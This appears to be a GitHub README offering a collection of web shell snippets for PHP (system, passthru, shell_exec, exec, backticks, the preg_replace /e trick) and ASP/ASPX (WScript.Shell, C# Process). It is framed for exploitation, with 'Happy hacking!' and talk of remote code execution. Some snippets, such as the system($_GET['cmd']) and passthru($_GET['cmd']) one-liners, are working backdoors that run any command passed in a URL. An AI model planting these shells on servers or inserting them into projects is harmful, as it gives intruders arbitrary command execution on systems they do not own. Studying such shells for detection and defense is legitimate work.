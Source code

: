 # WebShells

> **Disclaimer**  
> This repository is currently under construction. The content is being updated and expanded. New file extensions and detailed descriptions will be added soon. Stay tuned for more additions. Happy hacking!
> This repository could be used with .php4, .php5, .hphp, .hphp, .wsdl.php, .phar, .phb extensions and more. 

Currently this document outlines the usage of various PHP file extensions commonly used for web shells and their potential to be exploited for Remote Code Execution (RCE).

# PHP Webshells

#### 1. Basic Command Execution Using system()
```php
<?php system("whoami"); ?>
```

#### 2. Passing Commands via URL Parameters with system() (shell.php?cmd=whoami)
```php
<?php system($_GET['cmd']); ?>
```

#### 3. Executing System Commands with passthru()
```php
<?php passthru($_GET['cmd']); ?>
```

#### 4. Capturing Command Output Using shell_exec()
```php
<?php echo shell_exec("whoami"); ?>
```

#### 5. Using exec() to Run Commands (Outputs Only Last Line)
```php
<?php echo exec("whoami"); ?>
```

#### 6. Storing Full Output from exec() as an Array
```php
<?php
exec("ls -la", $output);
print_r($output);
?>
```

#### 7. Backtick Syntax for Simple Command Execution
```php
<?php echo `whoami`; ?>
```

#### 8. Legacy preg_replace() Execution Trick (Deprecated)
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

# ASPX Webshells

#### 1. Classic VBScript-Style ASP Command Execution
```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

#### 2. Executing Commands in C# ASPX with Output Display
```aspx
<%@ Page Language="C#" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c whoami";
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.UseShellExecute = false;
    p.Start();
    string output = p.StandardOutput.ReadToEnd();
    Response.Write("<pre>" + output + "</pre>");
}
</script>
```

